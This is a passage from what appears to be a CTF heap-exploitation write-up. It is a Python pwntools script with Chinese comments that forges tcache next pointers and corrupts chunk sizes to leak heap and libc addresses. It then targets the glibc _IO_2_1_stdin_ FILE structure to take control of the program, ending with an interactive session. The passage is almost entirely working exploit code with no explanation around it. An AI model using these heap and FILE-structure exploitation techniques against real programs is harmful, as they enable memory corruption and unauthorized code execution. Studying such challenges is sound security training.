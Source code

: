    ```python
       add(2,str(int("0",16)))
   show(1)
   p.recvuntil(b"number :")
   heap_addr = eval(p.recvuntil(b"\n")[:-1])&0xfffff000
   success("heap_addr ==> " + hex(heap_addr))
   
   #伪造next指针 进而修改size并释放
   for i in range(3):
       free(2)
       add(1,str(heap_addr+0x290))
   add(2,str(heap_addr+0x250))
   add(1,str(heap_addr+0x260))
   
   #修改size字段
   add(2,str(int("0",16)))
   add(2,str(int("101",16)))
   add(1,str(int("0",16)))
   add(1,str(int("0",16)))
   #填满tcache
   for i in range(7):
       free(1)
       add(2,str(heap_addr+0x260))
   free(1)
   show(1)
   
   #泄漏libc低4位地址
   p.recvuntil(b"number :")
   addr = (eval(p.recvuntil(b"\n")[:-1]))
   success("addr ==> " + hex(addr))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   IO_file_stdin_addr = libc.sym['_IO_2_1_stdin_'] + 0x70 + libc_base
   success("IO_file_stdin_addr==>"+hex(IO_file_stdin_addr))
   
   #伪造next 申请到IO_file_stdinchunk 修改IO_file_stdin结构体
   add(2,str(IO_file_stdin_addr))
   for i in range(4):
       free(2)
       add(1,str(IO_file_stdin_addr))
   debug()
   add(2,str(heap_addr+0x280))
   debug()
   add(2,str(0))
   add(2,str(0))
   #修改IO_file_stdin
   add(2,str(666))
   
   #利用scanf读取
   p.sendlineafter(b'>','4')
   p.interactive()
   ```
